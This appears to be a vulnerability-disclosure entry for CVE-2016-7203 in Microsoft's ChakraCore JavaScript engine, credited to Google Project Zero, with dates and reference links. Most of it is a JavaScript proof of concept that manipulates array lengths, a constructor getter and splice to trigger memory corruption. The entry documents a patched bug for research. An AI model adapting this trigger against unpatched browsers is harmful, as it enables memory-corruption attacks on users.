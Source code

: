 # CVE-2016-7203

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = [];

class dummy{}

a.length = 200000;
a.fill(7, 10000, 10200);

var o = {};

Object.defineProperty(o, 'constructor', {
    get: function() {
      a.length = 0xfffffffe;
      var k = [];
      k.fill.call(a, 7.7, 0xfffff000, 0xfffffffe);
      return dummy;
    }
  });

a.__proto__ = o;

var q = [];
q.length = 500;
q.fill(7.7);

var j = [];

a.length = 0xfffffffe - 500;

j.splice.call(a, 0, ...q);
a[0xfffff1ec - 1] = 10;
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=934)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/55358e3c44c0ad83eb3b6e5a0b88d88a591afaa2#diff-49bb5a3c5aa249e3dcefd245e91df5f7R6807)
